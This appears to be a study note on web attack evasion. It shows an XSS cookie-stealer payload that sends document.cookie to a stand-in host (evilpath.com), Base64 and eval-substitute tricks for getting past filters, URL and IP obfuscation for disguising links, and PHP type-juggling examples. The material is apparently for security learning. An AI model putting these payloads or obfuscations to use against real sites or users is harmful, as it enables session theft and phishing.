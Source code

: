 # Evasion Basics



### Base64 Encoding Evasion



#### Cookie stealer

To steal cookies, not marked as `HttpOnly` is relatively easy and we commonly use this JavaScript payload:

```
location.href = 'http://evilpath.com/?c='+escape(document.cookie)
```



Using Base64 encoding, we can hide document.cookie code translating the attack vector into:

base64 of `alert(1)` is `YWxlcnQoMSk=`

```
eval(atob("YWxlcnQoMSk="));   ===> eval(alert(1))
```



if eval is blacklisted

```
[].constructor.constructor("alert(1)")();

[].constructor.constructor(atob("YWxlcnQoMSk="))();

setTimeout("alert(1)")

setTimeout(("alert(1)"),500)

setInterval(alert(1))

Function(alert(1))()         "F" must be upper-case letter
```





#### URI Obfuscation Techniques
**URL shortening**: is a technique in which a URL may be shorter in length and still direct to the required page.

- [bitly](https://bitly.com/)
- [tinyurl](https://tinyurl.com/)



**short link preview:** 

- https://security.thejoshmeister.com/2009/04/how-to-preview-shortened-urls-tinyurl.html

- ```
  curl -I https://shorturl.at/JKQdD   and see the Location header in the response
  ```





**URL Authority Obfuscation**

![](./assets/1.png)



The authority component is structured as:

[ userinfo "@" ] host [ ":" port ]



**Obfuscating with Userinfo**

The `userinfo` subcomponent is used for authentication . If credentials are required to access a resource, they can be included here, and the login will be automatic:

http://username:password@www.domain.com/protected_path

if the page required no authentication, the subcomponent text is ignored by both browser and server.



if the resource does not require authentication, we could play with this URI

https://www.google.com@domain.com



**Obfuscating with host**

google.com is translated to 173.194.35.23 via Dot-decimal notation



IP to DWORD format:

To convert an IP address to DWORD, open your calculator in scientific mode. Let’s take the above IP address, which is “91.193.72.70”. Split the IP address into four octets - 91, 193, 72 and 70.

So, one of Google's IP address, 216.58.215.78 can be translated to 3627734862 and it can be accessed using an internet browser as http://3627734862





IP to OCTAL format:

An IP address can also be represented in Octal form. The result is as follows: http://91.193.72.70  => http://0133.0301.0110.0106

We can also "feed" each number by adding leading zeroes without break the original value as follows:

http://0000000330.0000000072.0000000327.000000116





IP to HEX format:

the Google's IP is: http://0xd83ad74e Each number can also be separated like this: http://0xd8.0x3a.0xd7.0x4e



![](./assets/2.png)



ip converter:

https://www.silisoftware.com/tools/ipconverter.php



JavaScript Encoding Non Alphanumeric:

- [Jencode](https://utf-8.jp/public/jjencode.html)
- [AAencode](https://utf-8.jp/public/aaencode.html)
- [jsfuck](https://jsfuck.com/)







#### PHP Obfuscation Techniques

##### Type Juggling











##### Numerical Data Types

```php
$x = "Giuseppe";
echo $x[0];							// decimal  G
echo $x[0001];						// octal    i
echo $x[0x02];						// hex      u
echo $x[0b11];						// binary   s

echo $x[0.1];						// floating(0.1) casted to 0 ==> G
echo $x[0.1e+1];					// exponential				 ==> i
echo $x[0.2e+1];					//long exponential			 ==> u

echo $x[false];						//	G
echo $x[true];						//	i
echo $x[count(['d'])+true];			//	u


echo $x[(int)"hello"];				//  G
echo $x[(int)!0];					//  i
echo $x[(int)"2+1"];				//  u
echo $x[(int)"3.11"];				//  s
```

